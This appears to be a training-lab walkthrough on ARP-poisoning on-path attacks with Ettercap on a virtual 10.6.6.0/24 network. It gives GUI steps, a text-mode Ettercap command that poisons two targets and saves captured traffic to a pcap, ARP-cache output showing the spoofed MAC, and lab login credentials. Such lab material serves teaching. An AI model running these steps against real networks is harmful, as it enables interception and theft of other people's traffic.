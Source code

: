 Once we have gained access to a client’s LAN, we often will use a tool like Ettercap to conduct an on-path attack.

On-path attacks are very powerful ways to steal data that is travelling on a network. Without end-to-end encryption, as with much data travelling on local LANs, it is easy to capture clear text information, and even complete files, using on-path attack methods.

**Note**: **On-path** is replacing man-in-the-middle (MITM) as the name of this type of attack.

Use the command **ip neighbor** to view the current ARP cache on the target computer.

**Login**

User: labuser
Pass: Cisco123

The user of the 10.6.6.23 host is communicating with the server at 10.6.6.13. The on-path attacker at 10.6.6.1 (your Kali VM).

```
labuser@gravemind:~$ ip neighbor
10.6.6.1 dev eth0 lladdr 02:42:08:8e:f9:14 REACHABLE
```

###  **Update arp cache by pinging targets**

```
ping -c 5 10.6.6.13
```

### Load Ettercap GUI interface to begin scanning.

Start Ettercap GTK+ graphical user interface using the **ettercap -G** command.

```
sudo ettercap -G
```

- The Ettercap GUI opens in a new window. You are sniffing traffic on an internal, virtual network. The default setup is to scan using interface eth0. Change the sniffing interface to **br-internal**, which is the interface that is configured on the 10.6.6.0/24 virtual network, by changing the value in the **Setup > Primary** **Interface** dropdown.
- Click the **checkbox** icon at the top right of the Ettercap screen to continue. A message appears at the bottom of the screen indicating that Unified sniffing has started.
- In the Ettercap GUI window, open the Hosts List window by clicking the Ettercap menu (three dots icon). Select the **Hosts** entry and then **Hosts List**. Click the **Scan for Hosts** icon (magnifying glass) at top left in the menu bar. A list of the hosts that were discovered on the 10.6.6.0/24 network appears in the Host List window.

1. Define the source and destination devices for the attack. To do so, click the IP address **10.6.6.23** in the window to highlight the target user host. Click the **Add to Target 1** button at the bottom of the Host List window. This defines the user’s host as Target 1.
2. Click the IP address of the destination web server at **10.6.6.13** to highlight the line. Click the **Add to Target 2** button at the bottom of the host window.

Any IP/MAC address specified as a Target 1 will have all its traffic diverted through the attacking computer that is running Ettercap. In this lab, the attacking computer is the Kali Linux machine at 10.6.6.1. All other computers on the subnet, other than the targets, will communicate normally.

3. Click the MITM icon on the menu bar (the first circular icon on top right). Select **ARP Poisoning…** from the dropdown menu. Verify that **Sniff remote connections** is selected. Click **OK**.
4. The MITM exploit is started. If sniffing does not start immediately, click the **Start** option (play button) at left in the top menu.

**Verify it's working from the target**

```
ping -c 5 10.6.6.13
```

```
labuser@gravemind:~$ ip neighbor
10.6.6.1 dev eth0 lladdr 02:42:08:8e:f9:14 REACHABLE
10.6.6.13 dev eth0 lladdr 02:42:08:8e:f9:14 REACHABLE
```

In this step, you will use the command line interface in Ettercap to perform ARP spoofing and write a .pcap file that can be opened in Wireshark.

The **ettercap -T** command runs Ettercap in text mode, instead of using the GUI interface, **-q** to run in quiet mode, **-i**  to specify the interface, and **mitm arp** to specify mode. The syntax to start Ettercap and specify the targets is:

```
sudo ettercap -T [options] -q -i [interface] --write [file name] -- mitm arp /[target 1]// /[target 2]//
```

```
sudo ettercap -T -q -i br-internal --write mitm-saved.pcap --mitm arp /10.6.6.23// /10.6.6.13//
```

Example:

```
labuser@gravemind:~$ ip neighbor
10.6.6.1 dev eth0 lladdr 02:42:08:8e:f9:14 REACHABLE
10.6.6.13 dev eth0 lladdr 02:42:0a:06:06:0d STALE
10.6.6.11 dev eth0 lladdr 02:42:0a:06:06:0b STALE
labuser@gravemind:~$ ip address 
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
27: eth0@if28: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0a:06:06:17 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.6.6.23/24 brd 10.6.6.255 scope global eth0
       valid_lft forever preferred_lft forever
labuser@gravemind:~$ ip neighbor
10.6.6.1 dev eth0 lladdr 02:42:08:8e:f9:14 DELAY
10.6.6.13 dev eth0 lladdr 02:42:08:8e:f9:14 REACHABLE
10.6.6.11 dev eth0 lladdr 02:42:0a:06:06:0b STALE
labuser@gravemind:~$ ping -c 5 10.6.6.11
PING 10.6.6.11 (10.6.6.11) 56(84) bytes of data.
64 bytes from 10.6.6.11: icmp_seq=1 ttl=64 time=0.059 ms
64 bytes from 10.6.6.11: icmp_seq=2 ttl=64 time=0.074 ms
64 bytes from 10.6.6.11: icmp_seq=3 ttl=64 time=0.064 ms
64 bytes from 10.6.6.11: icmp_seq=4 ttl=64 time=0.048 ms
64 bytes from 10.6.6.11: icmp_seq=5 ttl=64 time=0.055 ms

--- 10.6.6.11 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 105ms
rtt min/avg/max/mdev = 0.048/0.060/0.074/0.008 ms
labuser@gravemind:~$ ping -c 5 10.6.6.13
PING 10.6.6.13 (10.6.6.13) 56(84) bytes of data.
64 bytes from 10.6.6.13: icmp_seq=1 ttl=64 time=9.04 ms
64 bytes from 10.6.6.13: icmp_seq=2 ttl=64 time=12.3 ms
64 bytes from 10.6.6.13: icmp_seq=3 ttl=64 time=10.5 ms
64 bytes from 10.6.6.13: icmp_seq=4 ttl=64 time=9.57 ms
64 bytes from 10.6.6.13: icmp_seq=5 ttl=64 time=16.4 ms

--- 10.6.6.13 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 9ms
rtt min/avg/max/mdev = 9.042/11.572/16.428/2.669 ms
labuser@gravemind:~$ ip neighbor
10.6.6.1 dev eth0 lladdr 02:42:08:8e:f9:14 REACHABLE
10.6.6.13 dev eth0 lladdr 02:42:08:8e:f9:14 REACHABLE
10.6.6.11 dev eth0 lladdr 02:42:0a:06:06:0b REACHABLE
```

10.6.6.13 now has the same MAC as 10.6.6.1. The MAC for 10.6.6.11 is unchanged because it is not a target in the attack.

We can now review the mitm-saved.pcap file in wireshark.

The MAC address for 10.6.6.23 can be found in the output of the Ettercap text interface in Target Group 1.

The 10.6.6.23 (target user) and 10.6.6.1 (attacker) have the same MAC address. The MAC address for 10.6.6.11 (bystander) remains the same because it is not the target in the attack.

**ARP protocol uses Layer 2 broadcasts to obtain the destination MAC associated with the target IP address. Broadcasts and Layer 2 ARP information are not forwarded beyond the local network.**

